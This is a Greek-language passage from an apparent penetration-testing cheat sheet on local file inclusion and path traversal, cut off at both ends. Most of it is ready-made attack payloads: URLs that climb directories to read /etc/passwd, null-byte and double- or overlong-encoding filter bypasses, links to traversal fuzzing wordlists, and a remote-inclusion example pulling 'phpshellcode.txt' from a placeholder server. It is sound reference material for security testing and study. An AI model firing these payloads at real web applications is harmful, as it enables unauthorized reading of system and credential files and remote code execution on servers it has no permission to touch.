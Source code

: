 Δοκιμάστε επίσης να αλλάξετε το `/` με `\`\
Δοκιμάστε επίσης να προσθέσετε `../../../../../`

Μια λίστα που χρησιμοποιεί αρκετές τεχνικές για να βρει το αρχείο /etc/password (για να ελέγξει αν υπάρχει η ευπάθεια) μπορεί να βρεθεί [εδώ](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-nix.txt)

### **Windows**

Συγχώνευση διαφορετικών λιστών:

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt" %}

Δοκιμάστε επίσης να αλλάξετε το `/` με `\`\
Δοκιμάστε επίσης να αφαιρέσετε το `C:/` και να προσθέσετε `../../../../../`

Μια λίστα που χρησιμοποιεί αρκετές τεχνικές για να βρει το αρχείο /boot.ini (για να ελέγξει αν υπάρχει η ευπάθεια) μπορεί να βρεθεί [εδώ](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-win.txt)

### **OS X**

Ελέγξτε τη λίστα LFI του linux.

## Basic LFI and bypasses

Όλα τα παραδείγματα είναι για Local File Inclusion αλλά θα μπορούσαν να εφαρμοστούν και σε Remote File Inclusion (σελίδα=[http://myserver.com/phpshellcode.txt\\](http://myserver.com/phpshellcode.txt\)/).
```
http://example.com/index.php?page=../../../etc/passwd
```
### ακολουθίες διαδρομής χωρίς αναδρομή
```python
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```
### **Null byte (%00)**

Παράκαμψη της προσθήκης περισσότερων χαρακτήρων στο τέλος της παρεχόμενης συμβολοσειράς (παράκαμψη του: $\_GET\['param']."php")
```
http://example.com/index.php?page=../../../etc/passwd%00
```
Αυτό έχει **λυθεί από το PHP 5.4**

### **Κωδικοποίηση**

Μπορείτε να χρησιμοποιήσετε μη τυπικές κωδικοποιήσεις όπως η διπλή κωδικοποίηση URL (και άλλες):
```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
### Από υπάρχον φάκελο
